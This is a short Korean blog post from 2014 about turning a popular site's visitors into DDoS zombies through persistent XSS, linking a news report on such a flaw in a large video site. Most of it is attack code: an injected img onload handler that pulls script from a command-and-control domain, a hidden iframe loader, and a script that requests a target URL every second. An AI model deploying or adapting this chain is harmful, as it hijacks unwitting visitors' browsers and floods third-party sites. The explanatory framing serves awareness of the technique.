 ```yaml
---
layout: post
title: "DDoS using a persistent XSS"
date: 2014-05-14 11:48:16 +0900
comments: true
categories: 
---
```


[Vulnerability in World Largest Video Site Turned Million of Visitors into DDoS Zombies](http://thehackernews.com/2014/04/vulnerability-in-worlds-largest-site.html)

    // JS injection in <img> tag enabled by Persistent XSS
    <img src="/imagename.jpg" onload="$.getScript('http://c&cdomain.com/inject-iframe.html')>

    // inject-iframe.html
    // Malicious JS opens hidden <iframe>
    $("body").append("<iframe id='ifr11323' style='display:none;' src='http://c&cdomain.com/ddos.html'></iframe>");

    // ddos.html
    // Ajax DDoS script
    <html><body>
    <h1>iframe</h1>
    <script>
    ddos('http://www.target1.com');
    function ddos(url) {
        window.setInterval( function() { $.getScript(url); }, 1000);
    }
    </script>
    </body></html>

사람들의 방문이 많은 사이트에 자바스크립트를 업로드할 수 있다면, 방문자의 브라우저를 DDoS 좀비로 만들 수 있다.
